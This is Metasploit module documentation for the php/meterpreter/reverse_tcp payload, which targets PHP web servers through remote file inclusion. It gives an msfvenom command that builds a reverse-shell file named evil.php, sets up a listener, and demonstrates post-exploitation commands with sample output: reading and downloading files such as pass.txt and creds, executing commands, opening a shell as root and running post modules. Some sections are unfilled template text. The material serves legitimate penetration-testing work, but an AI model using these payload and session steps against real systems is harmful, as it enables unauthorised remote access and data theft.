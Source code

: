 The php/meterpreter/reverse_tcp is a staged payload used to gain meterpreter access to a compromised system. This is a unique payload in the Metasploit Framework because this payload is one of the only payloads that are used in RFI vulnerabilities in web apps. This module _can_ be cross platform, but the target needs to ba able to run php code.


## Vulnerable Application

  The Php Meterpreter is suitable for any system that supports PHP. For example, the module can be used against webservers which run PHP code for a website. OS X has PHP installed by default.

## Options

  **Option name**

  Talk about what it does, and how to use it appropriately.

## Deploying /meterpreter/reverse_tcp
### Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

#### Generating a file with msfvenom
  ```
  msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o evil.php
  ```


#### Starting a listener
  ```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST [IP]
  ```
  
## Important Basic Commands

Compared to a native Meterpreter such as windows/meterpreter/reverse_tcp, the PHP Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/thecarterb/Desktop
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. This is useful for uploading additional payload files. For example:

```
meterpreter > upload /tmp/data.txt /Users/thecarterb/Desktop
[*] uploading  : /tmp/data.txt -> /Users/thecarterb/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/thecarterb/Desktop/data.txt
meterpreter >
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/thecarterb/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter >
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```

Without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the command allows you to search recursively.


**getuid command**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: root
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following examples uses the command to create a text file:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 73642 created.
meterpreter >
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt (or shell).
For example:

```
meterpreter > shell
Process 74513 created.
Channel 2 created.
sh-3.2#
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

## Using `post` modules
When using the PHP Meterpreter, you have the feature of using Metasploit's `post` modules on that specific session. By default, most `multi` post modules will work; however, you can also use OS specific modules depending on the OS of the compromised system. For example, if you have a PHP Meterpreter session running on OS X, you can use `osx` post modules on that session. 

  __Don't forget to:__
  - Set the `LHOST` datastore option to the connect-back IP Address
  - If you want to get multiple shells, set `ExitOnSession` to `false`
